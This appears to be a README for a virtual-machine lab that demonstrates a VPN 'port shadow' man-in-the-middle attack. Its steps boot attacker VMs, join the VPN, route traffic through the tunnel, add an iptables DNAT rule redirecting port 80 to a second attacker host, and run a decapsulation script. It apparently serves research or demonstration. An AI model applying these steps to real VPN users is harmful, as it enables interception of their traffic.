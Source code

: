 # Overview


1. Start the VMs

```bash
$ ./boot_all.sh
```

2. SSH to the Attacker

```bash
$ vagrant ssh attacker
```

3. Connect to the VPN server

```bash
$ cd /vagrant/
$ sudo openvpn client2.ovpn
```

4. Make sure the attacker traffic to the target gets sent through the VPN tunnel.

```bash
$ sudo ip route add 192.168.1.0/24 dev tun0
```

5. Setup the DNAT rule to forward packet to attacker2


```bash
$ sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.254.3
```

6. Run the decapsulation script to create the port shadow on attacker 1.

```bash
$ cd /vagrant/client-to-mitm/src/
$ sudo ./start-decapsulation.sh
```
